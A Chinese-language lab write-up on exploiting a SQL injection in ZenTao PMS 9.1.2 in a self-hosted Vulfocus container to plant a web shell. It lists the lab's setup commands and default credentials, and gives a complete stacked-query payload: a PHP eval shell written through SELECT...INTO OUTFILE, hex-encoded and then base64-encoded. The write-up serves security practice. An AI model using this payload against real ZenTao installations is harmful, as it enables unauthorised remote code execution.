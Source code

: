 ![Untitled](Untitled%201.png)

## 简单描述

1. 为什么不用select…into file方式getshell？网上教程绝大部分用这种方式，但是此靶场不行，详见后文select …into file处
2. 为什么用哪个foo.php路径？因为只有特定的文件路径可以。详见后文general_log处的坑一坑二
3. 为什么用预处理方式？系统有过滤一些敏感符号，预处理中可利用hex编码绕过，详见补充部分
4. 为什么请求中一定要加refer？系统有校验这个请求头，详见补充部分

# 详细讲讲TL;DR

由于在线 Vulfocus的靶机存在时间限制，故选择自行搭建靶机。同时由于自行搭建，故可以进入靶机然后分析。

## 搭建环境

1. 拉取官方镜像：`sudo docker pull vulfocus/zentaopms_9.1.2_sql`
2. 启动：`sudo docker run -dt --name zentao -p 8080:80 vulfocus/zentaopms_9.1.2_sql`
3. 访问：`IP+8080+/zentaopms/www/index.php`
4. 后台管理员账户：`admin/zxc@123`

### 后文会用到的命令

1. 进行docker内：`sudo docker exec -it xxxx /bin/bash`
2. 进入mysql：`mysql -u root -p`  。账户密码： `root/pass`,账户密码存于`/www/zentaopms/config/my.php`
3. mysql命令：
    1. 查看安全：`show variables like '%secure%';`
    2. 查看日志：`show variables like 'general_log%';`
    3. 设置日志路径：`set global general_log_file='/var/lib/mysql/ac2ecb1e75dc.log';`
    4. 设置日志开启：`set global general_log='on';`

> trick: 由于payload要频繁base64编码，burpsuite中的trick：`Ctrl+B`→Base64编码，`Ctrl+Shift+B`→Base64解码

## SELECT…INTO OUTFILE方式失败

最早找到的文章[《禅道免登陆SQL注入漏洞复现》](https://www.freebuf.com/vuls/246678.html)就是通过SELECT…INTO OUTFILE方式写入，但是发现怎么写入都不成功

```php
payload-->select '<?php @eval($_POST[1])?>' into outfile '/www/zentaopms/www/1.php'
hex-->0x73656c65637420273c3f70687020406576616c28245f504f53545b315d293f3e2720696e746f206f757466696c6520272f7777772f7a656e74616f706d732f7777772f312e70687027
params-->{"orderBy":"order limit 1;SET @SQL=0x73656c65637420273c3f70687020406576616c28245f504f53545b315d293f3e2720696e746f206f757466696c6520272f7777772f7a656e74616f706d732f7777772f312e70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}
base64-->eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDIwMjczYzNmNzA2ODcwMjA0MDY1NzY2MTZjMjgyNDVmNTA0ZjUzNTQ1YjMxNWQyOTNmM2UyNzIwNjk2ZTc0NmYyMDZmNzU3NDY2Njk2YzY1MjAyNzJmNzc3Nzc3MmY3YTY1NmU3NDYxNmY3MDZkNzMyZjc3Nzc3NzJmMzEyZTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9
```
